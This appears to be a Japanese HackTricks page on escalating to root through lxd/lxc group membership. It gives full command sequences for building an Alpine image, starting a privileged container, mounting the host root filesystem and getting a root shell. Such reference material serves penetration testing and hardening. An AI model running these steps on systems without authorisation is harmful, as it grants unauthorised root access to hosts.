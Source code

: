 # lxd/lxc グループ - 特権昇格

{{#include ../../../banners/hacktricks-training.md}}

もしあなたが _**lxd**_ **または** _**lxc**_ **グループ**に属している場合、rootになることができます。

## インターネットなしでの悪用

### 方法 1

信頼できるリポジトリからlxdで使用するためのalpineイメージをダウンロードできます。  
Canonicalは彼らのサイトで毎日ビルドを公開しています: [https://images.lxd.canonical.com/images/alpine/3.18/amd64/default/](https://images.lxd.canonical.com/images/alpine/3.18/amd64/default/)  
最新のビルドから**lxd.tar.xz**と**rootfs.squashfs**の両方を取得してください。（ディレクトリ名は日付です）。

代わりに、このディストリビューションビルダーをあなたのマシンにインストールすることもできます: [https://github.com/lxc/distrobuilder](https://github.com/lxc/distrobuilder)（githubの指示に従ってください）：
```bash
# Install requirements
sudo apt update
sudo apt install -y golang-go gcc debootstrap rsync gpg squashfs-tools git make build-essential libwin-hivex-perl wimtools genisoimage

# Clone repo
mkdir -p $HOME/go/src/github.com/lxc/
cd $HOME/go/src/github.com/lxc/
git clone https://github.com/lxc/distrobuilder

# Make distrobuilder
cd ./distrobuilder
make

# Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

# Create the container - Beware of architecture while compiling locally.
sudo $HOME/go/bin/distrobuilder build-incus alpine.yaml -o image.release=3.18 -o image.architecture=x86_64
```
**incus.tar.xz**（Canonicalリポジトリからダウンロードした場合は**lxd.tar.xz**）と**rootfs.squashfs**をアップロードし、イメージをリポジトリに追加してコンテナを作成します：
```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true

# List containers
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
> [!CAUTION]
> このエラー _**Error: No storage pool found. Please create a new storage pool**_\
> **`lxd init`** を実行し、すべてのオプションをデフォルトで設定します。その後、**前のコマンドの塊を繰り返します**

最後に、コンテナを実行してルートを取得できます:
```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```
### Method 2

Alpineイメージをビルドし、フラグ`security.privileged=true`を使用して起動し、コンテナがホストファイルシステムとrootとして対話するように強制します。
```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```
{{#include ../../../banners/hacktricks-training.md}}
